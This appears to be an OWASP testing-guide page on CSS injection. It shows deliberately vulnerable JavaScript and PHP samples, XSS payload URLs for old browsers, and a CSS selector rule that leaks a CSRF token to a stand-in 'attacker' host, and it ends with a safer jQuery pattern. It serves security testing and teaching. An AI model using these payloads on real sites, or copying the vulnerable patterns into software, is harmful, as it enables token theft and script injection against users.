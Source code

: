 ## Summary

A CSS Injection vulnerability involves the ability to inject arbitrary
CSS code in the context of a trusted web site, and this will be rendered
inside the victim's browser. The impact of such a vulnerability may vary
on the basis of the supplied CSS payload: it could lead to Cross-Site
Scripting in particular circumstances, to data exfiltration in the sense
of extracting sensitive data or to UI modifications.

## How to Test

Such a vulnerability occurs when the application allows to supply
user-generated CSS or it is possible to somehow interfere with the legit
stylesheets. Injecting code in the CSS context gives the attacker the
possibility to execute JavaScript in certain conditions as well as
extracting sensitive values through CSS selectors and functions able to
generate HTTP requests. Actually, giving the users the possibility to
customize their own personal pages by using custom CSS files results in
a considerable risk, and should be definitely avoided.

The following JavaScript code shows a possible vulnerable script in
which the attacker is able to control the "location.hash" (source) which
reaches the "cssText" function (sink). This particular case may lead to
DOMXSS in older browser versions, such as Opera, Internet Explorer and
Firefox; for reference see DOM XSS Wiki, section "Style Sinks".

    <a id="a1">Click me</a>
    <script>
      if (location.hash.slice(1)) {
        document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1);
      }
    </script>

Specifically the attacker could target the victim by asking her to visit
the following URLs:

  - www.victim.com/\#red;-o-link:'<javascript:alert(1)>';-o-link-source:current;
    (Opera \[8,12\])
  - www.victim.com/\#red;-:expression(alert(URL=1)); (IE 7/8)

The same vulnerability may appear in the case of classical reflected XSS
in which for instance the PHP code looks like the following:

    <style>
    p {
      color: <?php echo $_GET['color']; ?>;
      text-align: center;
    }
    </style>

Much more interesting attack scenarios involve the possibility to
extract data through the adoption of pure CSS rules. Such attacks can be
conducted through CSS selectors and leading for instance to grab
anti-CSRF tokens, as follows. In particular,
input\[name=csrf_token\]\[value=^a\] represents an element with the
attribute "name" set "csrf_token" and whose attribute "value" starts
with "a". By detecting the length of the attribute "value", it is
possible to carry out a brute force attack against it and send its value
to the attacker's domain.

    <style>
    input[name=csrf_token][value=^a] {
      background-image: url(http://attacker/log?a);
    }
    </style>

Much more modern attacks involving a combination of SVG, CSS and HTML5
have been proven feasible, therefore we recommend to see the References
section for details.

### Black Box testing

We are referring to client-side testing, therefore black box testing is
not usually performed since access to the source code is always
available as it needs to be sent to the client to be executed. However,
it may happen that the user is given a certain degree of freedom in
terms of possibilities to supply HTML code; in that case it is required
to test whether no CSS injections are possible: tags like "link" and
"style" should be disallowed, as well as attributes "style".

### Gray Box testing

**Testing for CSS Injection vulnerabilities:**
Manual testing needs to be conducted and the JavaScript code analyzed in
order to understand whether the attackers can inject its own content in
CSS context. In particular we should be interested in how the website
returns CSS rules on the basis of the inputs.

The following is a basic example:

    <a id="a1">Click me</a>
    <b>Hi</b>
    <script>
      $("a").click(function(){
        $("b").attr("style","color: " + location.hash.slice(1));
      });
    </script>

The above code contains a source "location.hash" that is controlled by
the attacker that can inject directly in the attribute "style" of an
HTML element. As mentioned above, this may lead to different results on
the basis of the adopted browser and the supplied payload.

It is recommended that testers use the jQuery function css(property,
value) in such circumstances as follows, since this would disallow any
damaging injections. In general, we recommend to use always a whitelist
of allowed characters any time the input is reflected in the CSS
context.

    <a id="a1">Click me</a>
    <b>Hi</b>
    <script>
      $("a").click(function(){
        $("b").css("color",location.hash.slice(1));
      });
    </script>

## References

**OWASP Resources**

  - [DOM based XSS Prevention Cheat
    Sheet](DOM_based_XSS_Prevention_Cheat_Sheet "wikilink")
  - DOMXSS Wiki - <https://code.google.com/p/domxsswiki/wiki/CssText>

**Presentations**
\* DOM Xss Identification and Exploitation, Stefano Di Paola -
[<http://dominator.googlecode.com/files/DOMXss_Identification_and_exploitation.pdf>](https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/dominator/DOMXss_Identification_and_exploitation.pdf)

  - Got Your Nose\! How To Steal Your Precious Data Without Using
    Scripts, Mario Heiderich -
    <http://www.youtube.com/watch?v=FIQvAaZj_HA>
  - Bypassing Content-Security-Policy, Alex Kouzemtchenko -
    <http://ruxcon.org.au/assets/slides/CSP-kuza55.pptx>

**Proof of Concepts**
\* Password "cracker" via CSS and HTML5 -
<http://html5sec.org/invalid/?length=25>

  - CSS attribute reading - <http://eaea.sirdarckcat.net/cssar/v2/>